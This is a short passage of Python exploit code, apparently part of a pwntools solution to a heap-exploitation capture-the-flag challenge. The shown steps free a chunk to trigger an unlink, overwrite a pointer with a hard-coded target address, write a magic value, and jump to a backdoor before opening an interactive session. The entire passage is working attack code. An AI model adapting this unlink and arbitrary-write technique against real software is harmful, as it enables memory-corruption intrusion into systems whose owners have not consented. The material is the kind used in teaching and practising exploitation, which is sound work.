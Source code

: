 ```python
# 3. free B -> unlink
free_ddl("2")

# 4. write targetID
#edit_ddl("1", p64(0) * 3 + p64(targetID_addr), "\x00")
edit_ddl("1", p64(0) * 3 + "\xc0\x20\x60", "\x00")

edit_ddl("1", p64(3180103650), "\x00")

# 5. jump to backdoor
check()

p.interactive()
```

